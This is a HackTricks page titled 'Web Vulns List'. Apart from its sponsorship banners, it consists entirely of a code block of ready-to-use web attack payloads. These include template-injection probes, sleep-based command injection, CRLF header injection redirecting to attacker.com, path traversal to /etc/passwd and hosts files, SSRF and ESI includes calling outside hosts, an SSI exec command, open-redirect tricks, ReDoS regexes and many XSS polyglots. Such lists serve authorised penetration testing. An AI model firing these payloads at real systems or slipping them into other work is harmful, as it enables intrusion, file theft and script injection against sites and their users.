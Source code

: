 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Web Vulns List

```python
{{7*7}}[7*7]
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
<br><b><h1>THIS IS AND INJECTED TITLE </h1>
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
<!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://attacker.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>

```



<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


